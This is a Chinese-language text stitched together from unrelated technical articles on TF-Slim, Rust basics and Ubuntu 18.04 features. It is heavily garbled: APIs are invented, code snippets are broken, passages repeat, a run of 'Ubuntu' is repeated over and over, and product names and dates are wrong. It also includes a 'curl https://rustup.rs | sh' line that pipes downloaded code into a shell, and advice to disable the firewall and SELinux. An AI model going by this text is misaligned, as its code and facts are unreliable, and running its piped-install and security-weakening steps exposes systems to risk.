net = slim.conv2d(input, 128, [3, 3], scope='conv_1_')
```


## TF-Slim 快速上手指南

本文将涵盖使用 TF-Slim 在各种设备上设计和训练神经网络的基础。它作为关于

## 目录

- 安装与设置

- 入门

- 训练卷积神经网络

- 训练神经网络

- 部署模型

## 安装与设置

由于 TF-Slim 的稳定版本已在 `tensorflow.contrib.slim` 提供，要开始安装，请执行以下命令：

```
python -m pip install --upgrade tensorflow-contrib-slim
```

让我们在脚本中导入 tensorflow 的 contrib 库。这些文件将位于你的 python 路径中：

TF-Slim 还包含了其他 13 个内置层，包括全连接层和单位归一化层。它通过 `repeat` 函数简化了创建多个层的过程。例如，以下代码创建了三个卷积层。

```python
net = slim.repeat(net, 3, slim.conv2d, [3, 3], scope='conv3')
```

这使得对给定模型进行更精细微调调的任务变得简单得多。你可以使用这些 `repeat` 函数通过几行代码就创建一个新层，以替换已构建模型的最后一层。幸运的是，在 GitHub 上的 TensorFlow 仓库的 models 部分中，有一个非常棒的示例展示了如何实现这一点。这是一套完整的 Python 脚本，可以帮助你完成我们已经讨论的所有步骤。其中包含了将图像数据转换为 TensorFlow 格式的脚本，以及用于重新训练图像模型的脚本。如果你遵循这个笔记本，它将引导你完成创建新神经网络、在数据集上训练以及最终在生产环境环境中应用神经网络的过程。



# 训练新层

一旦你构建了一个新层，或者从零创建了一个全新的神经网络，你仍然需要训练这个新层。为了保留现有模型，你需要使用以下代码创建一个起始点：

```python
model_path = 'path/to/pre_trained_model/image_checkpoint'
variables_to_restore = slim.variables_to_restore()
init_from = slim.from_checkpoint(model_path, variables_to_restore)
```

一旦你从这个检查点开始，可以使用以下代码进行重新训练：

```python
train_op = slim.layers.create_train_out(...)
log_dir = 'path/to/my_dir'
lim.train_retrain(train_op, log_dir, init_from=init_from)
```

现在你可以运行这个新模型来获取预期的结果。为了帮助你，TF-Slim 代码库包含了一个 `evaluation.py` 脚本，可以帮助你完成这一处理步骤。如果你有特定的需要的操作，可以使用此脚本编写自己的工作流脚本。

# 性能影响

TensorFlow 背后的开发者投入了大量工作，使最终的、完全训练的模型在性能上相当迅速。这是深度学习和神经网络人气爆炸式增长的原因之一。然而，仍然有一个领域存在性能问题：模型的训练。在实践中，仅训练图像识别模型就需要几周的处理时间。这就是为什么在 Stage-Tensorflow 的第一阶段，GPU 支持中内置了一点延迟瓶颈——这也是为什么我们每当有机会时，都会去重新训练我们一直在考虑的 inception识别模型。

# 下一步去哪里？

到目前为止，我们已经以这种方式涵盖了图像识别和神经网络重新训练的过程。处理此类类型的模型涉及许多复杂的步骤。

我希望这篇文章能够帮助突出整体概念，并包含足够的外部资源，指引你找到完成项目时可能需要的细节来源。


# Rust 简介

## Rust：安全系统编程简介

学习当今最受喜爱的编程语言之一内部的安全特性

```rust
return;
let mut cargo = builder.cargo(compiler, Mode::Librust, target, "build");
let mut features = build.rust_features(i).to_string();
arg.build_src.join("src/librust.trans/Cargo.toml");
crust_cargo.env(&mut arg);

let folder = build.fold_output(|| format!("{stage}-rust-trans", stage));
match &self.backend {
  "llvm" => {
    // 为你的目标构建 LLVM。这将隐式构建 llvm target
    let llvm_config = builder.ensure(llvm: {
      enscript:backend = "enscript",
    });
  }
  if self.backend == "enscript" {
    features.push_str("enscript");
  }
}
println!("Building stage {}: artifact {}", stage, compiler_stage);
```

上面的内容如果你熟悉 C，那么也不必在 Rust 上感到困惑

Rust 是一种在 Mozilla 赞助下过去 10-12 年间开发的安全的 C，它迅速吸纳了软件工程中开发的许多安全特性。它的核心是一个和 C 一样强大的编程语言；但它将低级内存控制与优雅的特性（如类型和所有权）结合起来，这帮助 Rust 程序员避免错误的能力比在 C++ 等类似语言中多得多。今天，得益于其优雅性和健壮性，Rust 变得越来越流行。在 2016、2017 年的 Stack Overflow 调查中

## 入门

假设你熟悉一些 C++ 编程。虽然 Rust 的语法与 C 相同，但为了让语言更安全且不易出错，它与 C 有所不同。你将理解 Rust 的作用以及它如何处理空指针等问题。要开始，需要安装 Rust 编译器。为了安装它，你可以访问 `rust-lang.org` 并下载 `rustup-init` 脚本。运行此脚本将通过以下命令在你的系统上安装 Rust：

```
curl https://rustup.rs | sh
```

或者，你的包管理器可能有 Rust。在这种情况下，在那里安装 Rust 是一个好主意。这将让你……

### 教程

## Rust 简介

`for` 循环是 Rust 中最常用的类型。

```
Compiling hello.cargo v0.1
error[E0369]: binary operation 'can't be applied to type 'char'
```

Rust 正在告诉我们，不能使用乘法运算符对两个值进行操作。然而，如果我们使用数值而不是字符，Rust 将允许我们执行乘法。请将内部所有的代码替换为以下内容：

```rust
let number_seven = 7;
let thirteen = 13;
let product = number_seven * thirteen;
print!("{} x {} = {}", number_seven, thirteen);
```

`cargo run` 将为你显示正确的输出，如下：

```
7 x 13 = 91
```

Rust 还支持基础的循环结构。我们可以像 C 语言一样，使用 `break;` 关键字跳出循环。

### 图 2

```rust
loop {
    print!("Again!");
    break;
    print!("Again!");
}
```

```rust
while i < 5 {
    print!("{}!", i);
    i = i + 1;
}
```

### 图 3

```rust
for i in 1..4 {
    print!("{}!", i * 2);
}
print!("Who do we appreciate?");
```

我们在这里引入了一些新概念，让我们过一遍它们。为了在 Rust 中创建一个变量，我们使用 `let` 关键字，后面跟上变量名，然后是等号 `=`。初始化值是可选的，但通常是一个好主意，以便借此确定该变量应该具有的类型。例如，赋值为 7 的变量 `number`。Rust 实际上将其推断为 `i32`，这是一种 32 位整数类型。

如果我们想告诉 Rust 具体的类型，而不是让它自己推断，我们可以在变量声明中添加类型注解。例如：

```rust
let large_number: u64 = 1000;
```

`u64` 是 64 位整数的类型。图 1 中列出了 Rust 整数和浮点类型的完整列表。

Rust 会阻止你执行某些操作，例如声明一个无符号变量并设置为 -1。如果你给它一个负值，Rust 将防止赋值给一个溢出的变量。

Rust 无法推断变量的类型，并会给你关于此错误信息。在某些情况下，类型注解是强制的。

新事物是 `print!` 宏。可以使用占位符列表将占位符插入我们的字符串中，这些占位符将由函数的参数填充。这些参数可以是字符串、字符或数字。例如，以下命令

```rust
print!("{} {} {}", 0, 1, "user");
```

会打印出该字符串行。

## mut 与 影（shadow）

到目前为止，Rust 中的变量与你在 C 中找到的变量不同。通过将主函数的内容替换为以下内容：

```rust
let x = 2;
x = 3;
```

## 使用外部 crate（包）

你可能想使用 Cargo 的功能来构建一个 Rust 项目。Cargo 是一个强大的工具，非常令人印象深刻。用途之一是快速安装我们项目可以使用的新包，这些包被称为“crates”。

例如，让我们安装一个生成随机数的 crate。我们需要的 crate 称为 `rand`，它在 Cargo 仓库中提供。要安装它，我们需要修改 `Cargo.toml` 文件。如果那里还没有，在底部的 `[dependencies]` 下添加单行，然后是该行：如果我们运行 `cargo run`，Cargo 就会安装该 crate。

要使用该 crate，我们需要在我们的 `main.rs` 中添加以下行：`extern crate rand;`。这个过程很简单，将该行加入你的程序中。然后，在下方添加行 `use rand::*;` 以将 Rand 模块引入作用域。现在，我们可以在代码内部调用 `rand::thread_rng();` 来生成一个随机整数。

### 图 5

当我们尝试编译这段代码时，Rust 再次运行并向我们展示错误信息“无法赋值给不可变变量”。这说明了 Rust 中的变量默认是不可变的——也就是说，一个值不能赋值给带有 `mut` 关键字的变量。

其原因是通常情况下，不可变变量比可变变量安全得多，特别是在多线程系统中，线程之间的变量变化要难推理得多。我们建议你尽可能使用不可变变量。

图 2 中的 `while` 循环就是一个例子。要告诉 Rust 变量应该是可变的，我们使用 `mut`。

```rust
let mut i = 0;
i = 1; // 编译正常。
```

使用 `mut` 的替代方案是 Rust 所说的“变量影（shadowing）”。当我们在同一个作用域为不同的变量使用相同的名称时，就会发生变量影。例如：

```rust
let x = 0;
let x = 1;
```

在这里，`let x = 1` 行创建了一个新变量并将第一个值赋值给它。在这种情况下，我们引用第一个 `x` 是为了遮蔽它并产生第三个变量 `x`。最后，第二个变量或其他东西没有区别。如果我们想引用原始的 `x`，我们必须处理那个已经从 0 变为 1 的不可变变量 `x`，实际上，它们是两个独立的变量。

```rust
fn solve_quadratic_equation(a: f64, b: f64, c: f64) {
    // 此处省略原文中重复的逻辑块，遵循示例结构
}
```

Rust 无法推断变量的类型，并会给你关于此的错误信息。在某些情况下，类型注解是强制的。

新事物是 `print!` 宏。可以使用占位符列表将占位符插入我们的字符串中，这些占位符将由函数的参数填充。这些参数可以是字符串、字符或数字。例如，以下命令

```rust
print!("{} {} {}", 0, 1, "user");
```

会打印出该字符串行。

### 图 8

```rust
fn borrow_ownership(x: Box<i32>) {
    println!("borrowed,", x);
}

fn main() {
    let current_year = Box::new(2018);
    let current_year = borrow_ownership(current_year);
    println!("current,", current_year);
}
```

## 可变引用

如果你使用引用将值传递给函数而不转移所有权，你可能会注意到你无法在函数内部修改这些值。这是因为，如果我们有多个引用指向同一块数据，在多线程环境中对单个引用进行修改，可能会导致问题。因为各个线程正在从同一个数据源读取数据。

然而，有时我们想要更改变量的值，可以通过使用可变引用来实现这一点。要创建一个可变引用，我们像使用变量一样使用 `mut` 关键字，并且我们可以将引用的行为从 `&Box<i32>` 更改为 `&mut Box<i32>`。

由于如果存在多个引用指向相同的字节，允许引用将会产生问题，因此 Rust 对可变引用的使用非常严格。规则是：如果某块数据有一个可变引用，那么在同一作用域内不能有指向该数据的其他引用。当 Rust 修改它指向的引用时，一旦该引用离开作用域，指向该数据的引用就会失效。

返回“堆箱”（box）指针的惯用方法是返回一个引用，这允许你在不获取所有权的情况下读取它指向的值。

### 图 9

```rust
fn borrow_ownership(x: Box<i32>) {
    println!("borrowed,", x);
}

fn main() {
    let current_year = Box::new(2018);
    let current_year = borrow_ownership(current_year);
}
```

其他语言无法做到这一点，因为总有其他变量可能指向相同的字节。但在 Rust 中，我们使用所有权来确保这种情况永远不会发生，因为两个变量指向同一块数据是不可能的，一旦指向数据的指针被删除，它就会使旧指针失效。

这有点复杂：使用 `unique_ptr` 时我们无法将其中一个设置为另一个，因为这会移动所有权并导致第一个指针失效。这里的“失效”意味着第一个指针被设置为空或未定义，这会在运行时导致段错误。但在 Rust 中，解引用一个无效指针会导致编译器错误，这有助于我们更早地发现错误。

## 传递值

所有权转移的另一种方式是传递值。如果我们有一个指向堆上某些字节的变量并将其传递给函数，内部的参数将获取该变量的所有权。让我们来看一个使用 `Box` 代替 `String` 的示例。`Box` 分配一些内存，将其初始化为给定值，并返回“箱化值”——一个指向内存的变量。

图 7 中的代码包含了 `steal_`，它接受一个箱化的整数作为参数。

该函数对参数没有做太多操作，但事实是，它接收值意味着它获取了它所指向的字节（值 2018）的所有权。当函数返回时，`x` 离开作用域，内存将被释放。这意味着 `println!` 语句将无法编译，因为它在 `current_year` 失效后又引用了它。

我们可以通过从函数返回值来停止这一点。在 Rust 中，当我们返回一个引用时，它会将所有权传回给上下文。在这种情况下，我们返回了 `x`，它进入了调用者内存中新的（影子）变量 `current_year`。

这是可以的，但如果我们想从函数返回多个独立的值，这样做也有益处。幸运的是，Rust 允许在不获取值所有权的情况下向函数传递值。

对于这种用例，调用方式有点像“箱化值”：它允许我们查看箱的内容，但不会转移所有权。

图 9 显示了使用引用对图 8 代码的更简洁的版本。为了标记函数的某个参数是引用，我们需要在参数名称前面加上 `&`，并且在我们传递的变量（在本例中为 `current_year`）前面也加上一个 `&`。

当我们可以返回所有权时，Rust 中需要写的内容要少得多，但希望在这里我们让你领略了这种语言的强大。


# UBUNTU 18.04 的主要特性

Ubuntu “Bionic Beaver”（大海牛）18.04 是新一代领先 Linux 发行版的第一个长期支持（LTS）版本，包含超过 30 处令人兴奋的更改。

## 概览

当像 Canonical 支持的 Ubuntu 这样被广泛使用的发行版发生变化时，整个 Linux 社区都会注意到。Ubuntu 的独特之处在于，它在包含长期支持（LTS）版本之前，就在 LTS 版本之外发生了剧烈变化。Ubuntu 版本的支持期为九个月，但 LTS 版本每两年发布一次，这意味着人们投入了大量精力以确保进入 LTS 的内容尽可能稳定。Ubuntu 的最新变化是 17.10 Aardvark，它于 2017 年 10 月发布。

开发随着公司业务重点的调整而调整。一年前，创始人 Mark Shuttleworth 宣布公司不再关注融合，而是希望投资于提供日益增长的收入机会的领域——特别是那些能提供增长收入机会的领域。

- **桌面**：Ubuntu 18.04 首次在 LTS 版本中引入 GNOME。
- **服务器**：Ubuntu 18.04 Server 改进了程序。
- **云**：Ubuntu 在云方面有了重大进展。
- **容器**：Ubuntu 18.04 包含了对 Docker 和 Kubernetes 的深度原生支持。
- **IoT**：Ubuntu 18.04 针对物联网设备进行了优化。
- **开发**：Ubuntu 18.04 为开发者提供了许多新工具。
- **安全**：Ubuntu 18.04 LTS 提供了长久的安全支持。


## Ubuntu 18.04 的 GNOME

GNOME 在 Ubuntu 18.04 LTS 中首次作为默认桌面环境出现。与 17.10 相比，GNOME 桌面在 18.04 中更加稳定。

- **默认桌面环境**：Ubuntu 18.04 默认使用 GNOME 3.28。
- **安装程序**：使用了全新的安装程序，简化了安装体验。
- **软件中心**：包含了全新的 软件中心。
- **快速设置**：改进了快速设置功能。
- **主题定制**：支持了更多的主题。

## 在 Ubuntu 18.04 中使用 GNOME

Ubuntu 18.04 引入的 GNOME 带来了许多新功能。

- **工作区**：GNOME 的工作区更加流畅。
- **扩展**：可以安装更多的 GNOME 扩展。
- **搜索**：内置搜索功能更加强大。
- **快捷键**：提供了更多自定义快捷键。

除了 Bonionic 之外，另一个未进入 Bionic 的功能（实际上它已从上一个版本中恢复）是将默认显示器从 XOrg 切换到 Wayland。这再次关注了稳定性，以及一些由于当时尚未准备好投入量级环境的突出问题。

内核部分。此版本包含了 meltdown 和 Spectre 补丁，以及针对 AMD 处理器的安全、虚拟化和更好的图形支持，还包含了自 4.13 版本以来的一大系列驱动程序，特别是 LTS 点发行版本中的 4.10 版本。

待办事项：将 LibreOffice 升级到第 6 版本。Linux 办公软件持续不断壮大，最新版本进一步开发了 Notebook（笔记本），并对公式提供了更好的支持，包括 OpenPDF 的支持以及与其他 Microsoft Office 软件的更好的互操作性。

Snaps 作为一种通用布局格式，随着每个 Ubuntu 版本的发布而增长。在 18.04 版本中，它在软件中心中的地位更加突出，并包含了一套标准安装包，其中包括新字符和系统监控器。Snaps 设计用于将所有依赖项打包在一起，减少与其他软件包冲突，并允许开发者将一个应用程序重新封装成适用于多个发行版的多个版本。

通过此收集的数据是匿名的，这缓解了社区对隐私的担忧。安装后，你将在新版本中看到一些速度上的改进。

Python 3 现在已默认安装。你需要启用 'universe' 仓库来安装 Ubuntu 包的其他版本。GNOME Box 应用的用户会很高兴预装了 'vagrant-vagrant'，它提供了更好的性能和稳定性。

在大量的软件更新中，第一个随 4.15 版本而来的 LTS 是唯一支持彩色表情（通过 Noto Color Emoji）的。GNOME 是一个开源项目，用于提供对沙箱中虚拟机的远程访问、捕获视频、录制音频、共享 USB 设备和无缝共享文件夹。

Ubuntu 是第一个带有 4.15 版本的机器 LTS 版本。

# UBUNTU BUDG

从其他操作系统迁移的用户可能会发现 Budgie 桌面是一个熟悉的体验。Ubuntu Budgie 利用 Budgie 界面的简单与优雅，产生了一个具有现代范式的传统、结构良好的 发行版（Distro）。它专注于创建一个简洁且强大的桌面。

# UBUNTU MATE

MATE 桌面使用传统的桌面比喻，并运行在像 Pi 这样的硬件上。Ubuntu MATE 项目实际上是 GNOME 2 项目的延续。它的桌面和预制镜像易于使用，并且许多树莓派设备，

# UBUNTU STUDIO


多媒体内容创建是 Ubuntu Studio 的重点，它使用相同的 GNOME 桌面。Ubuntu Studio 专注于获取基础桌面镜像并对其进行配置，以为创意人员提供最佳性能。它包含了一个用于音频、图形、视频和出版的软件套。

# Ubuntu 18.04 LTS

## 快速指南

如果你正在安装新版本，可能会发现一些细微的变化。虽然仍使用默认设置，但还有其他需要注意的选项。第一个是 `minimal`（最小），它在不安装大部分预设软件的情况下安装 Ubuntu（约 500MB），但剩余的安装并不特别轻量，特别是安装应用程序时。

对于 Ubuntu 上的 Web 用户，需要注意的是 Ubuntu 18 已于 2020 年寿命并从主仓库中移除。

> 切换到 GNOME 的副作用之一是登录界面现在由 `GDM` 驱动。

在分区时，你将不再被提示创建交换分区（`swap partition`）。现在它是基于文件的，所以你不需要担心空间。默认选择 Ubuntu 变体、位置、硬件等。

### 安装 32 位版本

Ubuntu 18.04 是第一个仅提供 64 位完整 ISO 下载的发行版本。如果你需要在 32 位硬件或 ARM 等其他架构上运行，你有几个选择。首先，你可以安装上一个 LTS (`16.04`) 并升级到最新版本。或者，你可以使用网络镜像和 USB 闪盘获取创建 `PXE` 启动服务器所需的文件，并通过对发行版的安装，从启动到网络构建所需的文件。在在机器上安装所需包之前，对于包括 HTTP 代理、网关和 apt 仓库密钥、镜像选择和其他工具在内的基础网络配置，最简单的方法是制作你自己的自定义 ISO：

上图：`Subiquity` 安装程序为服务器安装的易用性和速度带来了许多急需的的改进。

## Ubuntu Server

服务器安装对 Ubuntu 至关重要。桌面用户可能热于更新到“最新”和“最强”，但这并不适用于 Ubuntu。在服务器环境中，稳定性至关重要，用户更倾向于留在 LTS 版本，仅升级到点版本，然后再升级。Ubuntu Server 现在使用 `Subiquity`（又称 '`ubiquity`'）来处理为服务器环境定制的服务器设置。安装程序仍然如你预期的那样基于文本，但更好用得多。

> 服务器的首次更改来自于一个长期更新，该更新改进了网络延迟和吞吐量。虚拟化 API `Libvirt` 已更新到第 4 版本，为其主机的自动化管理带来了最新的改进。

如果你处理云业务，18.04 中增加了一套易于操作的 Python 工具，其中还包括 `DPK`（一组数据库和对其他修复的支持）。自 2022 年起，新版本开箱即用包含了 `Meltdown` 和 `Spectre` 问题，内核需要相应的缓解措施。

上图：在第一个 LTS 点发布版本之前，你需要使用 `-d` 选项进行升级。

LTS 的发布非常直接——`ifdown/network/interfaces`。网络设备使用 `netplan` 配置。默认选择 Ubuntu 变体、位置、硬件等。

长期更改来自于长期更新，该更新改进了网络延迟和吞吐量。虚拟化 API `Libvirt` 已更新到第 4 版本，为其主机的自动化管理带来了最新的改进。

如果你处理云业务，18.04 中增加了一套易于操作的 Python 工具，其中还包括 `DPK`（一组数据库和对其他修复的支持）。自 2022 年起，新版本开箱即用包含了 `Meltdown` 和 `Spectre` 问题，内核需要相应的缓解措施。

上图：在第一个 LTS 点发布版本之前，你需要使用 `-d` 选项进行升级。

LTS 的发布非常直接——`ifdown/network/interfaces.`网络设备使用 `netplan` 配置。默认选择 Ubuntu 变体、位置、硬件等。

长期更改来自于长期更新，该更新改进了网络延迟和吞吐量。虚拟化 API `Libvirt` 已更新到第 4 版本，为其主机的自动化管理带来了最新的改进。

使用 `MAAS` 或云配置时，Open Ubuntu 提供了许多方便的。。 Ubuntu Ubuntu Ubuntu  Ubuntu Ubuntu Ubuntu Ubuntu Ubuntu  Ubuntu  Ubuntu  Ubuntu Ubuntu Ubuntu  Ubuntu  Ubuntu  Ubuntu  Ubuntu Ubuntu 在 Ubuntu 18 Ubuntu  Ubuntu  Ubuntu  Ubuntu  Ubuntu  Ubuntu  Ubuntu  Ubuntu 。

## 提示 使用 Livepatch 补丁无需重启

Canonical `Livepatch` 环境允许在无需重启的情况下提供安全补丁。它适用于少少数设备，并在 Bonionic 中增强了 `MOTD` 状态更新。

| Finished install! |

| :--- |

| configuring mount: mount- |

| running 'curtin-net-auto' |

| running 'curtin-install' |

| installing sources to disk |

| running 'curtin hook' |

| copying archive image from //root |

| running 'curtin hooks' |

| configuring apt config |

| installing packages |

| installing kernel |

| writing /etc/fstab |

| updating packages on target system |

| running user-agent on target system |

| finalization |

| running curtin hook |

| executing-services |

### 特性

# Ubuntu 18.04 LTS

### Ubuntu 云

Ubuntu 向云端的迈进正在加速，并提供了广泛的产品选择。

Canonical 已经强调了 Ubuntu 云对于**其作为快速增长的收入流的修订战略**重要性。Ubuntu 正在成为云计算的操作系统，50% 的公有云工作负载和 54% 的 OpenStack 云正在使用该操作系统。

自 2011 年初以来Canonical 一直支持 **Ubuntu 上的 OpenStack**，但它究竟是什么呢？OpenStack 是一种“云”操作系统，用于控制整个数据中心的计算、存储和网络资源池，所有内容通过一个仪表板进行管理，为管理员提供控制权，同时允许用户通过 Web 界面配置资源。

要为自己开始使用 Ubuntu 非常简单，这得益于一种理想的工具，它可以在几分钟内单机机器上快速构建 OpenStack 云；此外，它还可以轻松扩展到四台或更多物理服务器，使用 **MAAS（金属即服务 - 一种物理硬件、配置和管理的云方法）、Juju、LXD、PaaS 和 HCI。**

对于本地使用，在 Ubuntu 3.0 之后你可以使用 `LXD`，它是一个轻量级虚拟机化程序，运行 Linux 内核操作系统并具有前所未有的速度虚拟机状态操作。`LXD` 可以以虚拟机化器的安全性管理虚拟机，但运行速度更快。对于裸机，`LXD` 容器与原生操作系统一样快，这意味着在云端中，

> Ubuntu 'conjecture' 工具包含了几个用于云部署和容器部署的预包“咒语”

`Conjecture-juju` 以软件包的形式安装，从 18.04 版本开始，它将日益成为 Ubuntu 的标准方式。

首先安装 `sudo snap install lxd`，然后执行 `sudo apt install juju` 和 nextcloud。使用 `sudo snap install --classic conjecture-juju` 构建工具本身。这个基于的实用程序——毕竟它是为服务器构建的——提供了推荐命令列表以及软件应如何部署的描述，并由 YAML 文件组成。咒语 conjure-spells 存储在 https://github.com/ubuntu/spells 的 GitHub 注册表中，在那里，可以在不通过 git 配置的情况下继承咒语，该配置将直接传递给工具，并从该处加载咒语。带有 Nova-LXD 的 OpenStack。

#### Snap 咒语从 18.04 开始将日益成为 Ubuntu 的标准方式

- 快速指南：使用 Juju 部署服务

Juju “charms”是简化部署和管理复杂服务的简单方法。在 https://juju.com 可以找到，涵盖了 openstack、分析、apache 监控、OpenStack 等许多不同场景。使用 ElasticSearch 作为 charm 像往常一样简单：`juju deploy cs:elasticsearch`。当命令启动时，ElasticSearch 默认将应用端口 (`9200`) 设置为仅实例自身可用，但更改只需运行命令 `elastic-search-juju status` 来确认哪些端口是打开的。要打开所有端口，请使用命令 `juju deploy elasticsearch firewall_enabled=false`。

`LXD` 是最好的起点——你会注意到，还提供了使用 Apache Hadoop 和 Spark 进行大数据分析的咒语，以及用于 Kubernetes 的。

选择咒语后，系统将提示你编辑设置位置 (`localhost`)，配置网络和存储，然后提供公钥以启用对新部署内容的访问。接受默认值并点击“部署”。Juju 控制器——Juju 的一部分，打开应用程序服务和建模配置。设置完成后，你将能够在 http://openstack-ip/horizon 打开 OpenStack 仪表板并使用用户名登录查看正在运行的内容。

## 快速指南

免费在云端尝试 Ubuntu

Ubuntu 提供了云端部署的精彩机会，但由于定价模型，成本可能会迅速增加！幸运的是，如果你想在不花任何钱的情况下尝试云部署，我们提供了免费优惠。亚马逊 AWS 提供了一项优惠，包含期一年的免费层级。Google Cloud 提供 300 美元的免费额度。DigitalOcean 提供 100 美元的免费额度。Azure 提供了 12 个月的免费用期。Heroku 提供了免费额度。Linode 提供了免费额度。Vultr 提供了免费额度。Oracle Cloud 提供了免费额度。Alibaba Cloud 提供了免费套餐。腾讯云 提供了免费额度。华为云 提供了免费额度。

### 详情

| AWS EC2 | 1 GB |

| :--- | :--- |

| 750 小 | Free |

| AWS RDS | 5 GB |

| :--- | :--- |

| 750 Hours | Free |

| AWS Lambda | 1 Million |

| :--- | :--- |

| Monthly requests | Free |

| AWS QuickStart | 1 Million |

| | Free |

已被 Ubuntu 支持 12 个月的免费产品。

Ubuntu 上的 Docker Engine

Canonical 认为没有这两个重量级——Docker 和 Kubernetes 将是不完整的。Docker 是一个轻量级容器运行时，带有功能齐全的工具包，可以构建并运行你的容器。超过 65% 的基于 Docker 的扩展

在 Ubuntu 上运行的操作。

Docker Inc. 在 Ubuntu 上发布并更新 Docker 的稳定版本，让所有 Ubuntu 用户都能直接访问官方 Docker Engine。

Canalytics 确保了 Docker Hub 上安全 Ubuntu 镜像的可用性，它为 Docker Enterprise 提供第一级支持和技术支持，并由 Docker 公司本身提供支持。

如果你正处于选择尝试何种技术的阶段，在 Docker 和 LXD 之间做出决定并不容易。LXD 为你的所有管理进程提供了类似虚拟机的体验，感觉像一个普通的系统，但它通常每个容器只运行单个进程或应用程序。

LXD 允许你将基础设施作为“服务”——使 OS 实例部署变得快得多，而 Docker 则被开发者用于使“平台即服务”变得更具可移植性。但请记住，这些选项并不是互斥的——你可以同时运行 Docker 和 LXD。

在 Ubuntu 上，Kubernetes 得到了良好的支持。在云端也是如此。



更多：如果部署 Kubernetes，支持多个云提供商，包括 AWS（如图所示）、Azure、Cloud、Google、Oracle 和 Rackspace。

通过 Ranchera 交付原生 Kubernetes，Canonical 有一个纯正的 Kubernetes 产品，有一个响亮的名字：“Kubernetes 发行版”（The Distribution of Kubernetes）。这是 Kubernetes，在各种基础设施上经过测试，具有现代化的指标和监控，并与 Ubuntu 工作节点以及 Canonical 的 Google Kubernetes Engine (GKE) 服务合作开发。该技术栈是

> 快速提示

> 配合 Juju 使用 Kubernetes

> 可以 Juju 快速部署带有附加服务的 Kubernetes Core（Kubernetes 的一部分）集群或 Canonical Kubernetes 发行版。执行 `juju deploy be-starter:3.2` 或 `juju deploy bundle/canonical-kubernetes-179`。

完全托管的。最重要的是，Canonical 在对比参考实现的标准合规方面处于领先地位。

我们使用这个过程是因为清理，只是这次你在选项中选择了 Canonical Kubernetes 发行版。值得获取一个免费账户来设置独立的集群环境。

部署容器变得简单而容易。

Ubuntu 18.04 缓解了痛苦。Docker 最小 Ubuntu 镜像与包含超过 10 万个文件的官方镜像相比，体积缩小了 53%。当然，这些镜像非常基础——只有运行和下载额外包所需的内容，但压缩后仅为 31mb，解压后为 818mb，这些就是全部。

简而言之，较小的镜像改进了安装容器工具集的过程，最新的 LTS 发行版提升了部署容器后的体验，而在主流平台的帮助下满足了 Ubuntu 的生态需求。

## 快速指南：迁移到容器

Ubuntu 18.04 `LXD 3.0` 包含一个名为 `lxd-p` 的新工具。它使得通过 `LXD` API 将系统转换为 `LXD` 容器变得更加容易。安装后，结果可以通过将其到 `LXD` 服务器传输到任何系统，系统文件将传输到新容器中。此工具可以用于

另一个集成是与物理机或虚拟机 OpenStack 的集成。这是可能的，但更复杂。首先，需要通过编辑 `/etc/selinux/` 禁用inux。

# Ubuntu 18.04 LTS 特性

# Ubuntu Core、IoT 与机器人

Ubuntu Core 是一个精简、事务化的 Ubuntu 版本，专为 IoT 设备、机器人和容器部署设计。它基于超安全的、远程可升级的 Linux 应用程序平台，该平台被从芯片供应商到设备制造商和集成系统的一系列领先 IoT 厂商所使用。

当设备在现场运行时，安全问题会被解决。当然，Ubuntu Core 是免费的；它可以带有自定义内核、BSP（板级支持）并根据你的套件选择免费发布。它具有无与伦比的可靠性，包括完整的回滚功能，以降低现场管理设备的成本。

Ubuntu Core 中的所有内容都基于数字签名的 snaps。内核驱动程序、设备驱动程序被封装为 snap。最小操作系统也是一个 snap。最后，所有应用本身都是 snaps，使其易于管理。整个发行版仅 350MB，比许多都要小。

Core 使用与经典 Ubuntu 相同的内核、库和系统软件。IoT 的 snaps 可以在 Ubuntu 或任何其他发行版上开发。Core 的区别在于它是为了物联网而构建的。它默认是安全的——自动更新确保了任何关键

当前版本的 ROS（非常适合在 Ubuntu 上使用，是第 11 版本“月亮记录头”（Lunar Loggerhead）


> Joshua Elsdon


## 为树莓派 3 构建新的 Ubuntu Core 镜像



```
sudo snap install --classic celery
snapcraft create --name my-snap .
```

- 创建用于签名上传的密钥

  在开始构建镜像之前，你需要创建一个密钥来签署未来的上传。生成一个与你的 Ubuntu Store 账户关联的密钥，并使用 `snapcraft list-keys` 密钥确认 snaps。

- 在 Ubuntu Store 注册

